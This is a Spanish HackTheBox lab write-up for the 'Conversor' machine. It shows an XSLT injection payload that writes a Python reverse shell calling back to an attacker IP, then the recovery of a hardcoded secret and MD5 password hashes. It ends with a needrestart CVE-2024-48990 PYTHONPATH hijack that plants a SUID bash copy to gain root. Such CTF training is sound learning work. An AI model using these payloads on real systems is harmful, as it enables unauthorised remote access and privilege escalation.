


+++
title = "HackTheBox - Conversor"
draft = false
description = "Resolución de la máquina Conversor"
summary = "OS: Linux | Dificultad: Easy | Conceptos: XSLT Injection, CVE Público, Binario needrestart"
tags = ["HTB", "Linux", "Easy", "XSLT Injection", "CVE", "needrestart"]
categories = ["Writeups"]
showToc = true
date = "2026-02-16T00:00:00"
showRelated = true
+++

* Dificultad: `easy`
* Tiempo aprox. `~1.5h`
* **Datos Iniciales**: `10.129.4.131`

### Nmap Scan

Tras realizar un escaneo nmap completo, se encuentran los siguientes puertos abiertos:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 01:74:26:39:47:bc:6a:e2:cb:12:8b:71:84:9c:f8:5a (ECDSA)
|_  256 3a:16:90:dc:74:d8:e3:c4:51:36:e2:08:06:26:17:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://conversor.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: conversor.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
# Nada en UDP
```
Añadimos `conversor.htb` a `/etc/hosts`

Como la versión de SSH no es vulnerable y no hay nada más expuesto, vamos a `http` directos.

## HTTP - 80
Si entramos a `http://conversor.htb` veremos un panel de login. 


Al analizar con `whatweb` no vemos nada de info nueva:
```bash
$ whatweb http://conversor.htb                                               
http://conversor.htb [302 Found] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.129.4.131], RedirectLocation[/login], Title[Redirecting...]
```

Como podemos registrarnos, lo hacemos. P.ej, con credenciales `username:password`.
Ahora encontraremos un panel que nos permite subir archivos XML que sean output de análisis `nmap`, y una plantilla XSLT, y la página procesará ambos y nos devolverá un archivo más estético. P.ej, si subimos el análisis del propio servidor y la plantilla que nos dan:



> [!tip]+ Qué es XSLT?
> XSLT es un lenguaje diseñado para transformar documentos XML. Si tienes datos en crudo en xml, y quieres presentarlos como página web (p.ej HTML, como Conversor), el archivo XSLT contiene las instrucciones de las transformaciones que han de hacerse al formato XML. El problema de XSLT es que es **Turing completo**,  es decir, no es solo un lenguaje de "formato", sino que, teóricamente, puede hacer tanto como Python o C. Que Conversor permita subir archivos xslt propios abre la puerta a una potencial inyección XSLT.

## Reverse Shell - XSLT Injection
Subimos un archivo de reverse shell XSLT:
```xslt
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
        xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:ptswarm="http://exslt.org/common"
    extension-element-prefixes="ptswarm"
    version="1.0">
<xsl:template match="/">
  <ptswarm:document href="/var/www/conversor.htb/scripts/test2.py" method="text">
import os

os.system(
    "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.XX.XX\",XXXX));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"])'"
)
  </ptswarm:document>
</xsl:template>
</xsl:stylesheet>
```

Y mientras tanto, con un puerto en escucha:
```bash
$ penelope -i 10.10.14.54 
[+] Listening for reverse shells on 10.10.14.54:4444 
➤ Main Menu (m) Payloads (p) Clear (Ctrl-L) Quit (q/Ctrl-C)
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3!

www-data@conversor:~$
```

Al entrar, lo primero que encuentro relevante es un archivo:
```bash
www-data@conversor:~/conversor.htb$ ls __pycache__/
app.cpython-310.pyc

www-data@conversor:~/conversor.htb$ strings __pycache__/app.cpython-310.pyc 
...
C0nv3rs0rIsthek3y29z(/var/www/conversor.htb/instance/users.db
# Posible contraseña?
```

Parece un archivo que puede contener credenciales. Tras una búsqueda, descubro que es bytecode de Python que puede descompilarse fácilmente, así que lo copio a mi máquina y lo descompilo:
```bash
./pycdas app.pyc 
app.pyc (Python 3.10)
[Code]
    File Name: /var/www/conversor.htb/app.py
    Object Name: <module>
    Arg Count: 0
    Pos Only Arg Count: 0
    KW Only Arg Count: 0
    Locals: 0
    Stack Size: 5
    Flags: 0x00000040 (CO_NOFREE)
    [Names]
...
76      LOAD_CONST                      3: 'C0nv3rs0rIsthek3y29'
```
De nuevo, encontramos la contraseña, confirmando que estaba completa.
Probamos a cambiar de usuario con `su fismathack` y `su root`, pero no da resultado.

Ahora nos copiamos `instance/users.db` y lo analizamos con `sqlite3`:
```bash
$ sqlite3 users.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
files  users
sqlite> select * from users;
1|fismathack|5b5c3ac3a1c897c94caad48e6c71fdec
5|username|5f4dcc3b5aa765d61d8327deb882cf99 # Mi usuario, cuya contraseña es password
```

Dado que sabemos que mi contraseña es `password`, probamos a ver qué hash será:
```bash
$ echo -n "password" | md5sum                                                               
5f4dcc3b5aa765d61d8327deb882cf99
```
Efectivamente, coincide con la de la DB, confirmando que la otra también estará en MD5 (Y sin salt). Probamos a meter el hash en crackstation:



Confirmando que la contraseña de `fismathack` es `Keepmesafeandwarm`.
Probamos a hacer SSH:
```bash
$ ssh fismathack@conversor.htb
The authenticity of host 'conversor.htb (10.129.4.135)' can't be established.
ED25519 key fingerprint is: SHA256:xCQV5IVWuIxtwatNjsFrwT7VS83ttIlDqpHrlnXiHR8
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'conversor.htb' (ED25519) to the list of known hosts.
fismathack@conversor.htb's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-160-generic x86_64)

Last login: Mon Feb 16 17:38:27 2026 from 10.10.14.54
fismathack@conversor:~$ 
```

## SSH - Privesc
Al entrar con SSH, lo primero que comprobamos son los privilegios sudo:
```bash
$ sudo -l
Matching Defaults entries for fismathack on conversor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```

Mirando info sobre `needrestart`:
> *needrestart is a tool that probes your system to see if either the system itself or some of its services should be restarted. That last part is the one of interest in this document. Notably, a service is considered as needing to be restarted if one of its processes is using a shared library whose initial file isn't on the system anymore (for
  instance, if it has been overwritten by a new version as part of a package update).*

Y comprobamos versión:
```bash
$ needrestart --version
needrestart 3.7
```

Encontramos rápidamente varios CVE relacionados a `needrestart`:
> ***CVE-2024-48990***: *Qualys discovered that needrestart, before version 3.8, allows local attackers to execute arbitrary code as root by tricking needrestart into running the Python interpreter with an attacker-controlled PYTHONPATH environment variable.*

Probamos a ejecutar [un exploit](https://github.com/makuga01/CVE-2024-48990-PoC/) formado por 3 elementos: `e.py`, `lib.c` y `start.sh`:
```bash
$ ./start.sh 
./start.sh: line 7: gcc: command not found
```

Como `gcc` no está instalado, no podemos usarlo directamente, pero sí podemos modificarlo para que funcione solo con python, quitando el `.c`. Antes de modificarlo, algunos datos relevantes:
- `importlib` es la librería de python que permite importar otras librerías. Normalmente, esta librería Python la carga desde las librerías del sistema (`/usr/lib/...`).
- Si nosotros especificamos una variable de entorno `PYTHONPATH`, python irá primero a buscar las librerías ahí, y luego, si no las encuentra, seguirá su orden de búsqueda habitual.
- Al importar una carpeta como librería en Python, este busca dentro de la carpeta un archivo `__init__.py`. Si el archivo existe, Python ejecuta todo su contenido automáticamente antes de hacer nada.
- Un proceso de python puede estar ejecutándose en un `venv`, usando librerías del sistema, con un `PYTHONPATH` custom, etc. Y como `needrestart`, para poder comprobar de forma fiable las librerías del proceso, necesita "ver lo mismo" que este, lo que hace por defecto es copiar **algunas** las variables de entorno de tal proceso. El problema llega cuando copia algunas (como `PYTHONPATH`) sin sanitizar.

Con todo esto, podemos especificar `PYTHONPATH=.`, crear un directorio local `importlib` y, dentro de este, un `__init__.py` malicioso. Entonces:
- Ya no necesitamos los archivos `lib.c` y `start.sh` del exploit
- `__init__.py` se encarga de copiar `bash` a `/tmp/poc` y darle permisos SUID.
- `e.py` se encarga de borrar trazas anteriores y de mantenerse en escucha hasta que exista el archivo `/tmp/poc`
- Cuando ejecutemos `sudo needrestart`, este, por cada proceso del sistema, irá mirando si las librerías son "viejas" y copiaando las variables de entorno. Cuando llegue a nuestro `e.py` en ejecución, tomará las variables, entre las que estará `PYTHONPATH=.`, que también copiará.
- Al copiar la librería, cargará el `__init__.py` de dentro, que contiene el código malicioso que creará `/tmp/poc` (copia de bash). Cuando lo cree, `e.py` lo detectará y saldrá del bucle, dándonos un shell como root.


```bash
$ mkdir importlib
$ echo 'import os; os.system("cp /bin/bash /tmp/poc; chmod 4755 /tmp/poc")' > importlib/__init__.py
$ PYTHONPATH=$PWD python3 e.py
Error processing line 1 of /usr/lib/python3/dist-packages/zope.interface-5.4.0-nspkg.pth:

  Traceback (most recent call last):
    File "/usr/lib/python3.10/site.py", line 192, in addpackage
      exec(line)
    File "<string>", line 1, in <module>
  ModuleNotFoundError: No module named 'importlib.util'

Remainder of file ignored
##########################################

Don't mind the error message above

Waiting for needrestart to run...
```

Desde otra sesión SSH:
```bash
fismathack@conversor:~$ sudo /usr/sbin/needrestart
Scanning processes...                                                                                                                                       
Scanning linux images...                                                                                                                                    
Running kernel seems to be up-to-date.
No services need to be restarted.
No containers need to be restarted.
No user sessions are running outdated binaries.
No VM guests are running outdated hypervisor (qemu) binaries on this host.
```

Y de vuelta a la sesión anterior:
```bash
...
Remainder of file ignored
##########################################

Don't mind the error message above

Waiting for needrestart to run...
Got the shell!
poc-5.1# whoami
root
```
Y tenemos root.
